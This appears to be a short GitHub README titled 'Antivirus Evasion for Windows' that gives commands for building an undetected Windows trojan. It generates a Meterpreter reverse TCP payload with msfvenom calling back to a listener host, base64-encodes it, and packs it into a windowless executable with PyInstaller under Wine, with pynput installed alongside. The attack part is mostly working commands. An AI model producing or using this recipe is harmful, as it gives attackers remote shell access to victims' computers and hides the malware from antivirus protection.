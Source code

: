 # Antivirus Evasion for Windows

Sources: 
- https://pentestmag.com/antivirus-evasion-with-python/
- https://www.andreafortuna.org/2017/12/27/how-to-cross-compile-a-python-script-into-a-windows-executable-on-linux/
- https://www.youtube.com/watch?v=ozPaEWN4GnM
- https://stackoverflow.com/questions/63342345/cant-install-pyinstaller-at-ubuntu
- https://www.quora.com/How-do-I-make-an-executable-file-exe-which-runs-in-the-Windows-Environment-from-Python-py-file?share=1

# Install Metasploit

Metasploit: https://github.com/rapid7/metasploit-framework run the nightly script from github for installation

# Then install rest with

install.sh

# Create payload with python2 interpreter
<code>
which python2
</code>

Take care when installing packages with locally before crosscompiling to add the --user flag and look for the right pip version
<code>
python2.7 -m pip install pynput==1.0 --user
</code>


# Usage

msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.2.10 LPORT=443 -f raw -o mrtp.py
pythonpayload.py | base64 
Replace this string with the base64 string in mrtp.py
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile -w -F mrtp.py